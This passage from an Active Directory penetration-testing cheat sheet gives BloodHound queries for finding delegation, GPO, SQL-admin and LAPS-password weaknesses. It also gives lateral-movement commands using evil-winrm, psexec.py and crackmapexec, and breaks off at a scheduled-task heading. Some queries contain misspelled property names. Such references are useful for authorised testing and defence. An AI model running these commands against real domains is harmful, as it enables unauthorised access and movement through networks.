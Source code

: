 #### Computers in Unconstrained Delegations

```sql
MATCH (c:Computer {unconsraineddelegation:true}) RETURN c
```

#### Rights against GPOs

```sql
MATCH (gr:Group), (gp:GPO), p=((gr)-[:GenericWrite]->(gp)) return p
```

#### Potential SQL Admins

```sql
MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) return p
```

#### LAPS

Machine with LAPS enabled

```sql
MATCH (c:Computer {haslaps:true}) RETURN c 
```

Users with read LAPS rights against "LAPS machines"

```sql
MATCH p=(g:Group)-[:ReaLAPSPassword]->(c:Computer) return p
```

## Lateral Movement

### WinRM

```bash
evil-winrm -u user1 -p password -i <target_IP>
```

**evil-winrm** permits to open an interactive WinRM session where it is possible to `upload` and `download` items between the target and the attacker machine, load PowerShell scripts, etc.

### SMB

#### From one computer to another one

```bash
psexec.py domain.local/user1:password@<target>
```

#### From one computer to many ones

```bash
crackmapexec smb <targets> -u user1 -p password -X <command>
```

#### Execute immediat scheduled task
